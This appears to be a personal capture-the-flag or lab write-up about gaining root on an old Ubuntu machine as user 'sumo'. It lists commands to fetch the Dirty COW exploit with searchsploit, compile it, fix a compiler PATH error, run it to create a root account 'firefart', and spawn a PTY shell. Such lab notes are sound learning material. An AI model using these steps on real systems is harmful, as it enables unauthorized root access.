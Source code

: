 System info:
```bash
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Tmp folder contains an executable *RXgtm*:
![[Pasted image 20240421121033.png]]
=> nay

User sumo has sudo privs:
![[Pasted image 20240421134854.png]]

Linpeas shows that system might be vulnerable to dirty cow exploit.
Download exploit:
```bash
searchsploit -m 40839
```

Upload the exploit to the machine and compile it:
```bash
gcc -pthread 40839.c -o dirty -lcrypt
```
Error:
```bash
gcc: error trying to exec 'cc1': execvp: No such file or directory
```
Fix:
```bash
export PATH="$PATH:/usr/lib/gcc/x86_64-linux-gnu/4.8/"
```

Run the exploit:
![[Pasted image 20240421140056.png]]

It created a new root user "firefart" with our supplied password "sumo":
![[Pasted image 20240421140150.png]]

If you cant `su` upgrade the shell, then try again:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
